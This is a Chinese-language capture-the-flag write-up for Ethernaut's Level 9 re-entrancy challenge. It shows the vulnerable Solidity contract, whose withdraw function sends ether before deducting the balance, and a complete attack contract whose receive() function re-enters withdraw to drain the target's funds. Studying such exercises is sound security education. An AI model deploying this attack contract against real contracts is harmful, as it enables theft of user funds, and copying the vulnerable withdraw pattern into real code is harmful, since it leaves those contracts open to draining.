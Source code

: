 #   Level 9 Re-entrancy
實例地址：`0xdDDad271e43B42bCf2600Da9780457172dE03da0`

##  題目說明
這一關的目標是偷走合約的所有資產。

  可能會有用的資訊

*   沒被信任的(untrusted)合約可以在你意料之外的地方執行程式碼
*   fallback 方法
*   拋出(throw)/恢復(revert) 的通知
*   有的時候攻擊一個合約的最好方式是使用另一個合約
*   查看上方幫助頁面 "Beyond the console" 章節

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

##  POC
該合約漏洞位於 `withdraw(uint256)`， `call` 會等待執行結果，所以我們可以撰寫一個攻擊合約使用 `receive()` 的方式進行重入攻擊，這樣可以在 balances 被扣除前再次調用 `withdraw()`。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Reentrance{
     function withdraw(uint256 _amount) external;
     function donate(address _to) external payable;
}

contract Attack{
    Reentrance public target;

    constructor(address payable _target) payable{
        target = Reentrance(_target);
        target.donate{value:msg.value}(address(this));
    }

    function attack()external payable{
        target.withdraw(0.001 ether);
    }

    receive() external payable{
        target.withdraw(0.001 ether);
    }
}
```